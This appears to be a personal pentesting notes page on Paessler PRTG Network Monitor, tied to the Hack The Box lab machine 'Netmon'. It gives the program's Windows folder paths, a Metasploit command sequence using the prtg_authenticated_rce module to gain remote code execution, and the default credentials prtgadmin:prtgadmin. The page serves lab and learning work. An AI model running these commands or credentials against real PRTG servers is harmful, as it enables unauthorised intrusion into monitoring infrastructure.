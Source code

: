 # PRTG Network Monitor

[![netmon](../../../../cybersecurity/_badges/htb-p/netmon.svg)](https://app.hackthebox.com/machines/Netmon)

<div class="row row-cols-lg-2"><div>

[Paessler PRTG](https://en.wikipedia.org/wiki/Paessler_PRTG)  is an network monitoring software. On Windows, there are two folders, one for the program, another for the data:

```makefile!
C:\Program Files (x86)\PRTG Network Monitor
C:\ProgramData\Paessler\PRTG Network Monitor
```

If we have admin access, we can exploit a RCE.
</div><div>

For instance, with [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md):

```shell!
$ msfconsole -q
msf6> use windows/http/prtg_authenticated_rce
msf6> set RHOSTS <ip>
msf6> set LHOST tun0
msf6> run # try default password
msf6> set ADMIN_PASSWORD <password>
msf6> run
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Default credentials (`prtgadmin:prtgadmin`)
</div><div>
</div></div>